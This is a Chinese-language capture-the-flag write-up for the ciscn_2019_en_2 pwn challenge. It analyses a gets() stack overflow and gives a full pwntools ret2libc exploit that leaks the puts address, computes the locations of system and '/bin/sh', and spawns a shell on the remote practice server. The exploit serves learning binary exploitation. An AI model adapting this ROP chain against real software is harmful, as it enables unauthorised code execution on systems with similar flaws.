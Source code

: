 # 知识点

ret2libc



# 题目分析

1. 查看保护情况，64位程序，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现main函数通过begin函数打印菜单。

   <img src="./isset/ida1.png" alt="ida1" style="zoom:50%;" />

   <img src="./isset/ida2.png" alt="ida2" style="zoom:50%;" />

3. 跟入encrypt函数，发现存在gets栈溢出漏洞。

   <img src="./isset/ida3.png" alt="ida3" style="zoom:50%;" />

4. 没有提供后门函数，提供了puts函数，可以通过puts函数泄露libc，然后ret2libc即可。



# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./ciscn_2019_en_2')
io = remote('node4.buuoj.cn', '29554')
elf = ELF('./ciscn_2019_en_2')
libc = ELF('./libc-2.27.so')

pop_rdi = 0x400c83
ret = 0x4006b9
main = elf.sym['_start']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

# leak puts
io.sendlineafter('choice!\n', '1')
payload = 'A' * 0x50 + 'deadbeef' + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
io.sendlineafter('encrypted\n', payload)
puts_real = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
success('puts_real = ' + hex(puts_real))

# libc
libc_base = puts_real - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# ret2libc
io.sendlineafter('choice!\n', '1')
payload = 'A' * 0x50 + 'deadbeef' + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system) + p64(main)
io.sendlineafter('encrypted\n', payload)

io.interactive()
```

